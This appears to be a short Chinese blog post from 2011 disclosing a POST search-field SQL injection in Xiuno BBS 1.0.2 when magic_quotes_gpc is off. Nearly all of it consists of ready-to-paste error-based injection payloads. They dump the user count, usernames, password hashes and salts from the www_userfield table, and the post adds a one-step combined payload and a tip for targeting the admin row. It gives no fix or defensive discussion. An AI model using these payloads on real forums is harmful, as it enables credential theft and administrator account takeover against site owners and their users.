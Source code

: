 ```yaml
---
title: 修罗(Xiuno 1.0.2)bbs 注入漏洞
date: 2011-11-23 05:46
tags:
---
```

前段时间爆出 **Xiuno bbs** 后台拿shell
无意中翻了下代码发现 搜索型注入漏洞（POST）
`magic_quotes_gpc = Off`

**获取用户个数**
```sql
' AND (SELECT 1600 FROM(SELECT COUNT(*),CONCAT(0x6c6f7374776f6c667e,(SELECT MID((IFNULL(CAST(COUNT(*) AS CHAR),0x20)),1,50) FROM www_userfield),0x7e7430306c73,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lost'='lost
```

**获取用户名：**
```sql
' AND (SELECT 3849 FROM(SELECT COUNT(*),CONCAT(0x6c6f7374776f6c667e,(SELECT MID((IFNULL(CAST(username AS CHAR),0x20)),1,50) FROM www_userfield LIMIT 0,1),0x7e7430306c73,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lost'='lost
```
**获取密码:**
```sql
' AND (SELECT 7750 FROM(SELECT COUNT(*),CONCAT(0x6c6f7374776f6c667e,(SELECT MID((IFNULL(CAST(password AS CHAR),0x20)),1,50) FROM www_userfield LIMIT 0,1),0x7e7430306c73,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lost'='lost
```
**获取salt:**
```sql
' AND (SELECT 7750 FROM(SELECT COUNT(*),CONCAT(0x6c6f7374776f6c667e,(SELECT MID((IFNULL(CAST(salt AS CHAR),0x20)),1,50) FROM www_userfield LIMIT 0,1),0x7e7430306c73,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lost'='lost
```
**一步获取**
```sql
' AND (SELECT 2861 FROM(SELECT COUNT(*),CONCAT((SELECT concat(0x757365726e616d653a,username,0x3b70617373776f72643a,password,0x3a,salt)  FROM www_userfield limit 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'MOBL'='MOBL
```
**note:**
`LIMIT = 用户个数-1,1`

`xx FROM www_userfield where username='admin';`